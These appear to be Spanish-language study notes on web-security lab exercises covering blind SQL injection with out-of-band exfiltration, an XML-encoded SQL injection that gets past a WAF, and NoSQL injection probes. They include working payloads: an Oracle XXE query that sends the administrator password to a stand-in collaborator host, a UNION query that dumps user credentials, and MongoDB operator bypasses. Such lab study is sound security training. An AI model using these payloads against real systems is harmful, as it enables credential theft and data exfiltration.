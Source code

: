 ### Lab - Blind SQLi exfiltración de datos OAST

En trackID comprobaremos si el campo es vulnerable a los ataques OAST
![[Pasted image 20240403115647.png]]
![[Pasted image 20240403115703.png]]
Vemos que la web responde así que probaremos lo siguiente para sacar la contraseña del `administrator`

- `+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
Nos fijamos que en el payload separamos la password del subdominio de collaborator con un `.` --> Obtenemos la password antes del `.`
![[Pasted image 20240403120612.png]]

### Lab - Exfilración de datos encoding SQL a XML
Cogeremos esta petición y nos fijaremos en productID y stockID
![[Pasted image 20240403122856.png]]
Provocamos un error en el recuento de unidades
![[Pasted image 20240403122906.png]]
![[Pasted image 20240403122915.png]]
Vemos que tienen un WAF, una manera de saltarlo es el hackvertor
![[Pasted image 20240403123111.png]]
![[Pasted image 20240403123122.png]]
A nuestra entrada de datos pulsamos en btn + drch --> hackvertor --> decode -> dec_entries o hex_entities
![[Pasted image 20240403125553.png]]
Probamos a quitar uno de los dos y en los campos de store y product, vemos que sólo tiene una tabla y que es de tipo STRING
![[Pasted image 20240403130613.png]]
![[Pasted image 20240403130626.png]]
Observamos todas las tables y vemos una llamada users
![[Pasted image 20240403130745.png]]
concatenamos para que nos de los nombres y contraseña del usuario directamente
1 UNION SELECT username |'<>'| password FROM users
![[Pasted image 20240403130829.png]]

# NoSQL injection
## Métodos y curiosidades
- Estas bases de datos no see almacenan en estructuras condicionales como SQL, pueden tener un lenguaje personalizado, JSON , BSON o XML, se pueden consultar en APIs como MONGODB o Couchbase.
- Tenemos Amazon Neptune y Neo4j que son bases de datos basadas en gráficos, son bastante escalables y ágiles.
- MongoDB es la más popular de NoSQL
- Pondremos este paylad para saber si la BD limpia bien las cadenas --> `%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`
- En JSON sería --> ``'\"`{\r;$Foo}\n$Foo \\xYZ\u0000``
- `' && 1 && 'x`
- Probar con `'` o escapando con `\`
- Probaremos esta condición JS `'||1||'` que se convierte a `%27%7c%7c%31%7c%7c%27` y en MOngoDB se ve como `'fizzy'||'1'=='1'`, quiere decir que el campo es fizzy o 1  = 1, codición booleana
- También probaremos esto --> ``'"`{ ;$Foo} $Foo \xYZ``
-  En JSON probaremos  --> `{"username":{"$ne":"invalid"}}`
